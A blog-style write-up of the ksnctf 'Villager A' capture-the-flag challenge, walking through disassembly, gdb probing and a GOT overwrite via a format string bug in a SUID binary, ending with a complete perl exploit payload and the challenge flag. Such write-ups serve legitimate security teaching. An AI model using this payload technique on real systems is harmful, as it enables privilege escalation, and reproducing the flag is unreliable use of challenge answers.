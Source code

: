 ```yaml
---
layout: post
title: ksnctf Villager A write-up
comments: true
---
```


![placeholder](/image/vil_a.png "Large example image")  

[ksnctf](http://ksnctf.sweetduet.info) is one of the beginner level CTF websites. This article is the write-up for the question 4 [Villager A](http://ksnctf.sweetduet.info/problem/4), in which you need to exploit the *Format String Vulnerability* to capture the flag!  

__Note that this article includes a complete solution. If you are looking for some hints for Villager A, you should google the keywords like `Format String Vulnerability` and `GOT overwrite`.__  

----------------  


## Write-up
### __Connect__  
Using given information, access to the server `ssh -p 10022 q4@ctfq.sweetduet.info`  
In the server, you can find  

```
[q4@localhost ~]$ ls -al
total 36
drwxr-xr-x.  2 root root 4096 May 22  2012 .
drwxr-xr-x. 17 root root 4096 Oct  6  2014 ..
-rw-r--r--.  1 root root   18 Dec  2  2011 .bash_logout
-rw-r--r--.  1 root root  176 Dec  2  2011 .bash_profile
-rw-r--r--.  1 root root  124 Dec  2  2011 .bashrc
-r--------.  2 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x.  1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--.  1 root root  151 Jun  1  2012 readme.txt
[q4@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q4@localhost ~]$ cat flag.txt
cat: flag.txt: Permission denied
[q4@localhost ~]$ ./q4 
What's your name?
sirius
Hi, sirius

Do you want the flag?
yes
Do you want the flag?
yes
Do you want the flag?
no
I see. Good bye.
```

### __Analyze__  
Since I don't have an access to read flag.txt, it seems that I need to somehow exploit q4 (SUID=root) to read the file. Let's disassemble main().  

```
...
0x080485e4 <+48>:	call   0x8048484 <fgets@plt>
0x080485e9 <+53>:	mov    DWORD PTR [esp],0x80487b6
0x080485f0 <+60>:	call   0x80484b4 <printf@plt>		<==
0x080485f5 <+65>:	lea    eax,[esp+0x18]
0x080485f9 <+69>:	mov    DWORD PTR [esp],eax
0x080485fc <+72>:	call   0x80484b4 <printf@plt>		<== FMT_VULN
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>		<==
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
...
```
```
(gdb) c
Continuing.
What's your name?

Breakpoint 2, 0x080485e4 in main ()
(gdb) nexti
hello
0x080485e9 in main ()
(gdb) x/s 0x80487b6
0x80487b6 <__dso_handle+22>:	 "Hi, "
(gdb) x/s $esp+0x18
0xbf9524d8:	 "hello\n"
```
It seems that at \<main+48\>, `fgets()` is called to get a string from stdin; at \<main+72\>, `printf()` is called to output the string. But, it's kind of weird that `printf()` was called at \<main+60\> to output "Hi, ", and after that, `putchar()` was called to output "\n" (0xa). Why are they called separately, instead of calling just one like `printf("Hi, %s\n", input);` as you probably more familiar to write. Now, I'm getting suspicious that there is a format string vulnerability in this program. (I mean, it's a CTF program)  
What if I input some kind of *format string* at \<main+48\>?  

```
[q4@localhost ~]$ ./q4
What's your name?
sirius%x%x%x
Hi, sirius400d604408

Do you want the flag?
```

It's now clear that there is a format string vulnerability at __<main+72>__. So, let's think about how to exploit it to read flag.txt.  
  
```
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1		<==
0x08048618 <+100>:	jmp    0x8048681 <main+205>
...
0x08048681 <+205>:	mov    eax,DWORD PTR [esp+0x418]		<==
0x08048688 <+212>:	test   eax,eax
0x0804868a <+214>:	setne  al
0x0804868d <+217>:	test   al,al
0x0804868f <+219>:	jne    0x804861a <main+102>				<==
0x08048691 <+221>:	mov    DWORD PTR [esp+0x4],0x80487e6
0x08048699 <+229>:	mov    DWORD PTR [esp],0x80487e8
0x080486a0 <+236>:	call   0x80484a4 <fopen@plt>
0x080486a5 <+241>:	mov    DWORD PTR [esp+0x41c],eax
0x080486ac <+248>:	mov    eax,DWORD PTR [esp+0x41c]
0x080486b3 <+255>:	mov    DWORD PTR [esp+0x8],eax
0x080486b7 <+259>:	mov    DWORD PTR [esp+0x4],0x400
0x080486bf <+267>:	lea    eax,[esp+0x18]
0x080486c3 <+271>:	mov    DWORD PTR [esp],eax
0x080486c6 <+274>:	call   0x8048484 <fgets@plt>
0x080486cb <+279>:	lea    eax,[esp+0x18]
0x080486cf <+283>:	mov    DWORD PTR [esp],eax
0x080486d2 <+286>:	call   0x80484b4 <printf@plt>
...(return)
```
Realize that 0x1 is moved into [esp+0x418] right before the jump to \<main+205\>. Then, 0x1 is brought back to eax, followed by `jne` at \<main+219\> -- if the value of eax is not 0 (or ZF = 0), it jumps to \<main+102\> that is a loop asking "Do you want the flag?", as shown below.  


```
...
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
0x08048637 <+131>:	lea    eax,[esp+0x18]
0x0804863b <+135>:	mov    DWORD PTR [esp],eax
0x0804863e <+138>:	call   0x8048484 <fgets@plt>
0x08048643 <+143>:	test   eax,eax
0x08048645 <+145>:	sete   al
0x08048648 <+148>:	test   al,al
0x0804864a <+150>:	je     0x8048656 <main+162>
0x0804864c <+152>:	mov    eax,0x0
0x08048651 <+157>:	jmp    0x80486dc <main+296>
0x08048656 <+162>:	mov    DWORD PTR [esp+0x4],0x80487d1
0x0804865e <+170>:	lea    eax,[esp+0x18]
0x08048662 <+174>:	mov    DWORD PTR [esp],eax
0x08048665 <+177>:	call   0x80484e4 <strcmp@plt>
0x0804866a <+182>:	test   eax,eax
0x0804866c <+184>:	jne    0x8048681 <main+205>
0x0804866e <+186>:	mov    DWORD PTR [esp],0x80487d5
0x08048675 <+193>:	call   0x80484c4 <puts@plt>
0x0804867a <+198>:	mov    eax,0x0
0x0804867f <+203>:	jmp    0x80486dc <main+296>
...
```

On the other hand, if the jump was not taken, then it opens `flag.txt` and print it out (from \<main+212\> onwards)
One possibility to attack this program is by using format string attack to change the value of [esp+0x418] to 0 before `jne` at \<main+219\>, but it wouldn't work because `mov [esp+0x418], 0x1` happens after the string vulnerability. Moreover, ASLR (Address Space Layout Randomization) is enabled on this system, so guessing the stack address of [esp+0x418] is very hard.  
  

### __Exploitation__  
Remember that ASLR doesn't disable the randomization of memory address of code section. If I can somehow set `eip` to \<main+221\> (0x08048691), I should be able to read `flag.txt`.  
Right after the format string vulnerability, `putchar@plt` is called, using PLT. That means, if I modify the address referred at `putchar@plt` to \<main+221\>, I can modify `eip`!  
Let's examine.   

```
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
=> 0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
(gdb) stepi
0x08048474 in putchar@plt ()
(gdb) disassemble 
Dump of assembler code for function putchar@plt:
=> 0x08048474 <+0>:	jmp    DWORD PTR ds:0x80499e0
0x0804847a <+6>:	push   0x8
0x0804847f <+11>:	jmp    0x8048454
End of assembler dump.
```

So, it seems that if I change the value stored at __0x80499e0__ to be __0x08048691__ (\<main+219\>), I can read flag.txt.  
  

```
[q4@localhost ~]$ ./q4
What's your name?
AAAA%x.%x.%x.%x.%x.%x.%x.%x.
Hi, AAAA400.cfa440.8.14.64dfc4.41414141.252e7825.78252e78.

Do you want the flag?
```
As examining the format vulnerability, it seems that the input string is stored at __6th place__ from the top of the stack.  


### __GETTING THE FLAG__
Now, we got all the informatin needed.  

+ modify the value at __0x80499e0__ to __0x8048691__  
+ offset is 6  

Some calculation  

```python
>>> 0x8691 - 8
34441
>>>0x10804 - 0x8691
33139
```

Thus, the exploit code is  

```
[q4@localhost ~]$ perl -e 'print "\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6\$hn%33139x%7\$hn"'| ./q4
```

Then, the flag was: __FLAG\_nwW6eP503Q3QI0zw__
